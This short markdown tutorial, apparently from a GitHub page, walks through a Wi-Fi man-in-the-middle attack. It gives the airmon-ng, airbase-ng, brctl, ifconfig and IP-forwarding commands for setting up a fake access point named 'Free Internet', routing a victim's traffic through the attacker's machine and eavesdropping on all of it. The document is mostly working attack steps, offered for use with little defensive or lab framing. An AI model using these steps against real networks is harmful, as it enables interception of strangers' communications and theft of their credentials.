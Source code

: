 

## Main in the Middle attack
- setup

 → A victim client unassociated from any AP

 → The attacker machine should be connected to the internet through a wired interface

- Steps of the attack:

 → Set up a fake AP

 → Start a DHCP server to provide the network configuration to connecting clients

 → Forward all the traffic toward the Internet but..

 → Act as MitM eavesdropping all the communications

Wireless interface into monitor mode:
```
airmon-ng start <interface>
```

Start airbase and set up an AP which a catchy SSID name like **Free Internet**
```
airbase-ng -c <channel> -e "Free Internet" <interface>
```

Create a network bridge interface:
```
brctl addbr br0
brctl addif br0 eth0
brctl addif br0 at0
```

// br0 = name of the bridge interface
// eth0 = your wired interface
// at0 = the virtual interface created by airbase

> Troubleshooting: brctl - command not found

```
apt-get install bridge-utils
```

Assign an IP address to the bridge interface:
```
ifconfig br0 <ip_address> up
```

> the IP depends on your network config

Enable IP packet forwarding:
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

- Try to connect from your victim client through the new **Free Internet** AP. 

	// At this point, all of the internet directed traffic from the victim client is already being forwarded through the attack machine.
